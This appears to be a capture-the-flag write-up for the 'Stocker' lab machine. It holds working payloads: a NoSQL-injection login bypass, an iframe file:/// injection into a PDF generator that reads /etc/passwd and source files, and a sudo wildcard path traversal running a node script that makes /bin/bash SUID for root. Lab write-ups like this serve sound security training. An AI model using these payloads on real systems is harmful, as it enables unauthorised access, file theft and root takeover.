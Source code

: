 # Stocker

## Gaining Access

Nmap scan:

```bash
$ nmap -p- --min-rate 3000 10.129.98.240 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-19 00:30 EST
Nmap scan report for stocker.htb (10.129.98.240)
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

The domain was `stocker.htb`, and we can add that to the `/etc/hosts` file.

### Subdomain Fuzzing

There was nothing of interest on the website. `gobuster` scans and default enumeration did not really help out a lot.&#x20;

I decided to use `wfuzz` to fuzz the possible subdomains present on the website, and actually found one at `dev.stocker.htb`.

<figure><img src="../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Interesting.

### Login Bypass

At the dev site, all we see is one login page:

<figure><img src="../../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

I tested out `sqlmap` or other SQL injections but it didn't work. It seems that we have to bypass this login to carry on with the machine. Proxying the traffic via Burp gave me a clearer picture on the error received when I entered wrong credentials:

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU
Upgrade-Insecure-Requests: 1

username=test&password=test
```

There was a `connect.sid` endpoint, indicating that this was some type of Express website. Perhaps this was using MongoDB instead of regular SQL. I tested this JSON payload to bypass the login and it worked.

```json
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"} }
```

<figure><img src="../../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

The website was some ordering website where we could place orders for items.

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

### Stock LFI

I added some items and attemted to checkout from the website.

<figure><img src="../../../.gitbook/assets/image (9) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Viewing the purchase order brought us to a PDF page.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

I downloaded the PDF and used `exiftool` on it to find that Skia is used to generate this PDF from Chromium.

```
$ exiftool document.pdf
ExifTool Version Number         : 12.49
File Name                       : document.pdf
Directory                       : .
File Size                       : 38 kB
File Modification Date/Time     : 2023:01:17 04:05:40-05:00
File Access Date/Time           : 2023:01:17 04:05:50-05:00
File Inode Change Date/Time     : 2023:01:17 04:05:40-05:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Tagged PDF                      : Yes
Creator                         : Chromium
Producer                        : Skia/PDF m108
Create Date                     : 2023:01:17 09:05:09+00:00
Modify Date                     : 2023:01:17 09:05:09+00:00
```

Additionally, this was the request sent when we clicked checkout.

```http
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 162
Connection: close
Cookie: connect.sid=s%3Akg1SjHeFtX5eT0qfyd1SYLx_R3NRwNQ4.1K3jgUazClJr3WYMiGo9H9WoN6Di9M3ZGN4z9qgzMXU

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"Cup","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```

The exploit is obviously to do with some parameter within the request being vulnerable when generating the RCE. I did some research on PDF related exploits, and found that it was possible to inject some HTML frames to cause an LFI.

{% embed url="https://techkranti.com/ssrf-aws-metadata-leakage/" %}

I attempted this exploit using the `file:///` wrapper to read the `/etc/passwd` file and it worked within the `title` header in the JSON data.

```
<iframe src='file:///etc/passwd' width=500px height=1000px ></iframe>
```

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We find that the user is called `angoose`. I attempted to read more files such as the private SSH key of the user, but it seems that I either could not read it or it did not exist.

Remembering that this was an Express website, perhaps there was a Javascript file that I could read to find some credentials, particularly those used to access this server in the first place. WIthin  the `/var/www/dev/index.js` file, I managed to find some credentials.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

With this password, we can `ssh` in as `angoose`.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo

Checking sudo permissions, we find that `angoose` can use `node` as an administrator. There's also a wildcard in the scripts we can execute, which is never a good thing.

```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Sorry, try again.
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
```

Within that folder, there are some scripts already present.

```
angoose@stocker:/usr/local/scripts$ ls -la
total 32
drwxr-xr-x  3 root root 4096 Dec  6 10:33 .
drwxr-xr-x 11 root root 4096 Dec  6 10:33 ..
-rwxr-x--x  1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x  1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x  1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x  2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x  1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x  1 root root  623 Dec  6 09:53 schema.js
```

I don't have write permissions in this folder. Neither can I read the scripts to find out what they do. However, because there's a wildcard, we can just enter `../../` to execute any script we want.

Here's a basic JS script for RCE using `child_process`.

```javascript
#!/usr/bin/node
require('child_process').exec('chmod u+s /bin/bash')
```

Then, we can simply do this:

```
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../../../home/angoose/evil.js 
angoose@stocker:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
angoose@stocker:~$ /bin/bash -p
bash-5.0# id
uid=1001(angoose) gid=1001(angoose) euid=0(root) groups=1001(angoose)
```

Pwned.&#x20;
